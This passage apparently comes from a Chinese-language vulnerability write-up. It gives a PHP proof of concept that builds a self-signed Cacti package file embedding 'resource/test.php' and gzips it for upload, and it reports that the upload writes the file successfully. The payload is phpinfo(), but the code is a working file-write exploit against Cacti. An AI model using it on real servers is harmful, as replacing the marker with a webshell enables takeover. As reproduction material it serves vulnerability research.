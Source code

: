 ```
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php phpinfo(); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

运行这段代码，会生成一个gz文件，在cacti里上传

![](./images/image-145.png)

可以看到写入成功
